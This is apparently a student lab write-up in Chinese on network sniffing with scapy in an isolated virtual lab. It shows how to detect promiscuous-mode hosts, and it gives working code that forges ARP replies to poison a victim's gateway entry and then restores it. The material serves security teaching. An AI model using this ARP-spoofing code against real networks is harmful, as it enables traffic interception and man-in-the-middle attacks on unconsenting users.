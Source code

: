 # 网络监听

### 实验环境搭建

- 网络拓扑

  ![](img/实验拓扑图.png)

- 各主机结点信息

  - 攻击者主机
    - `08:00:27:bb:a1:1c`
    - `172.16.111.133`

  - 受害者主机
    - `08:00:27:3b:c4:f5`
    - `172.16.111.110`

  - 网关
    - `08:00:27:d5:7a:32`
    - `172.16.111.1`

### 实验准备

#### 安装 scapy

- 在攻击者主机上安装好 scapy

  ```bash
  # 安装 python3
  sudo apt update && sudo apt install python3 python3-pip
  
  # ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
  pip3 install scapy[complete]
  ```

  ![](img/下载python3.png)

  ![](img/下载scapy.png)

### 实验一检测局域网中的异常终端

- 在受害者主机上检查网卡的 `混杂模式` 是否启用

  ```bash
  ip link show eth0
  ```

  ![](img/查看是否开启混杂模式.png)

- 在攻击者主机上开启 scapy

  ```bash
  sudo scapy
  ```

  ![](img/开启scapy.png)

- 为查看混杂模式主机而发送ARP请求

  ```python
  # 在 scapy 的交互式终端输入以下代码回车执行
  pkt = promiscping("172.16.111.110")
  ```

  ![](img/pkt.png)

- 回到受害者主机上开启网卡的`混杂模式`

  ```bash
  # 注意上述输出结果里应该没有出现 PROMISC 字符串
  # 手动开启该网卡的「混杂模式」
  sudo ip link set eth0 promisc on
  ```

- 此时会发现输出结果里多出来了 `PROMISC`

  ```bash
  ip link show eth0
  ```

  ![](img/开启混杂模式.png)

- 回到攻击者主机上的 scapy 交互式终端继续执行命令，观察两次命令的输出结果差异

  ```bash
  pkt = promiscping("172.16.111.110")
  ```

  ![](img/观察差异.png)

  - 可以看到会显示受害者主机的 `ip地址` 和 `MAC地址`

- 在受害者主机上手动关闭该网卡的 `混杂模式`

  ```bash
  sudo ip link set eth0 promisc off
  ```

- 查阅资料，promiscping 命令会发送 `ARP who-has` 请求。

  > - 混杂模式 网卡能够接收所有经过它的数据流，而不论其目的地址是否是它
  > - 普通模式 网卡只接受发给自己地址的数据包


### 实验二：手工单步“毒化”目标主机的 ARP 缓存

- 获取当前局域网的网关 MAC 地址

  ```python
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
  
  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()
  ```

  ![](img/获取当前局域网的网关MAC地址.png)

- 发送这个 ARP 广播请求

  ```python
  recved = srp(arpbroadcast, timeout=2)
  ```

- 网关 MAC 地址如下

  ```python
  gw_mac = recved[0][0][1].hwsrc
  gw_mac
  ```

  ![](img/查看mac地址.png)

- 伪造网关的 ARP 响应包

  ```python
  # 准备发送给受害者主机 172.16.111.110
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  
  # 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
  arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1 ", pdst="172.16.111.110", hwdst="08:00:27:bb:a1:1c")
  
  # 发送上述伪造的 ARP 响应数据包到受害者主机
  sendp(arpspoofed)
  ```

  ![](img/伪造网关响应包.png)

- 此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

  ```bash
  ip neigh
  ```

  ![](img/伪造成功.png)

- 恢复受害者主机的 ARP 缓存记录

  ```python
  # 伪装网关给受害者发送 ARP 响应
  restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1 ",hwsrc="08:00:27:d5:7a:32", pdst="172.16.111.110", hwdst="08:00:27:3b:c4:f5")
  sendp(restorepkt1, count=100, inter=0.2)
  ```

  ![](img/恢复.png)

- 此时在受害者主机上准备“刷新”网关 ARP 记录

  ```bash
  ## 在受害者主机上尝试 ping 网关
  ping 172.16.111.1
  
  ## 静候几秒 ARP 缓存刷新成功，退出 ping
  ## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ip neigh
  ```

  ![](img/恢复成功.png)

### 参考资料

[2020-ns-public-LyuLumos](https://github.com/CUCCS/2020-ns-public-LyuLumos/blob/ch0x04/ch0x04/%E7%BD%91%E7%BB%9C%E7%9B%91%E5%90%AC.md)
